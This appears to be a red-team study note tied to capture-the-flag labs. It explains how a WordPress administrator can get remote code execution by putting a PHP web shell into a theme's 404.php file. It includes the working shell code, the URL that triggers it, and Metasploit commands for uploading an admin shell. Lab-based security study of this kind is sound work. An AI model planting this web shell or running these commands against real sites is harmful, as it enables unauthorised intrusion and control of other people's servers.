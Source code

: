 # WordPress Admin RCE

[![hackingwordpress](../../../../../../cybersecurity/_badges/htb/hackingwordpress.svg)](https://academy.hackthebox.com/course/preview/hacking-wordpress)
[![colddboxeasy](../../../../../../cybersecurity/_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../../../cybersecurity/_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![wordpresscve202129447](../../../../../../cybersecurity/_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

<div class="row row-cols-lg-2"><div>

With sufficient privileges, it is possible to exploit a remote code execution (RCE) *vulnerability* on WordPress.

Since admins can modify templates, and templates are written in PHP, we can replace one of them with our code. For instance, a remote shell, meaning we would have a remote command execution (RCE).

Select `Appearance` then `Theme Editor`. Select a theme, preferably one that is not used to avoid breaking things.

Pick a non-critical file such as `404.php` and add to it a [web shell](/cybersecurity/red-team/s3.exploitation/shell/web_shell.md) or directly use a [reverse shell](/cybersecurity/red-team/s3.exploitation/shell/reverse_shell.md):
</div><div>

```php!
<?php
// add your webshell
echo "<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>";
// prevent the rest of the page from showing up
// ⚠️ it may not work, remove it if it doesn't
exit 0;
```

To execute it, aside from accessing an invalid URL which may highlighted in the logs, directly access the file from the theme folder:

```text!
https://<HOST>/wp-content/themes/<theme_name>/404.php
```
</div></div>

<hr class="sep-both">

## Metasploit Module

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md), but it's quite unreliable.

```shell!
$ msfconsole -q
msf6> use wp_admin_shell_upload
msf6> set USERNAME username
msf6> set PASSWORD password
msf6> set RHOSTS IP
msf6> set LHOST tun0
msf6> run
```
</div><div>

Some options you might want to set:

```shell!
msf6> set WPCHECK yes # may be false in some scenarios
msf6> set httptrace true
msf6> set TARGETURI /wordpress/
msf6> run
```

</div></div>